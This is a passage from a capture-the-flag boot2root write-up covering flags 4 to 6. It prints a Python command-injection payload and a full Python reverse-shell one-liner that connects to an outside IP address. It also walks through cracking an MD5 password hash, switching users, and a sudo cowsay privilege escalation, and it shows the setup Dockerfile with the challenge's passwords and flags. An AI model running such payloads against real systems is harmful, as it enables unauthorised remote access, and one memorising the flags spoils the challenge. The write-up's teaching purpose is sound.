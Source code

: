 ```python
__import__('subprocess').getoutput("cat /home/www/user.txt")
```
- I gave the `shell.py` after realizing how difficult it would be to derive the intended shell method as shown below. (You also need a listener such as `nc -nvlp 4242`)

```python
exec('import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("138.47.141.66",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')
```
- To read more about how reverse shells work, here is a link [here](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/). It is very important to understand for boot2root machines and offensive security in general.


##### Flag 5
In order to pivot to `gustave`, you find a password list with 101 passwords in the directory `/www/IMPORTANT_DIRECTORY_HIDING_FROM_WEBUSERS`. If you use `grep` against the file and look for `gustave`, you find the following snippet. All the other passwords are random words and probably will not be found in rockyou.txt.
```
gustave 7074598e8be40729e73a6a19ba3953f4
```
Run it through crackstation to find gustave's password is `MAHLOVE`. To swap users, use the following command
```bash
su - gustave
```
Then, navigate to `/home/gustave` to find the user.txt flag

#### Flag 6
The root is from `gtfo-bins`
https://gtfobins.github.io/gtfobins/cowsay/
If curious, here is how the users are set up
```dockerfile
RUN useradd -m gustave && echo "gustave:MAHLOVE" | chpasswd && adduser gustave sudo && chmod 750 /home/gustave

RUN echo "gustave ALL=(root) NOPASSWD: /usr/games/cowsay *" >> /etc/sudoers

# RUN useradd -m www/ && echo "www:www" | chpasswd

RUN echo "flag{ro0t-shell}" > /root/root.txt

  
  
  

## USER 1 - www 2 rootflag{l33t_h@ck3r_sk1lls}

RUN echo "flag{passwords_4_win}" > /home/gustave/user.txt

RUN useradd --shell /bin/rbash -m www && echo "www:www123" | chpasswd && chmod 750 /home/www

RUN echo "flag{1337_hacker}" > /home/www/user.txt

RUN mkdir /www/IMPORTANT_DIRECTORY_HIDING_FROM_WEBUSERS

RUN for i in $(seq 1 100 ) ; do WORD=$( cat /usr/share/dict/words | shuf -n 1 ) ; echo $WORD $( echo $WORD | md5sum | cut -c -32 ) >> /www/IMPORTANT_DIRECTORY_HIDING_FROM_WEBUSERS/passwords_important ; done

RUN echo "gustave 7074598e8be40729e73a6a19ba3953f4" > /www/IMPORTANT_DIRECTORY_HIDING_FROM_WEBUSERS/passwords_important

```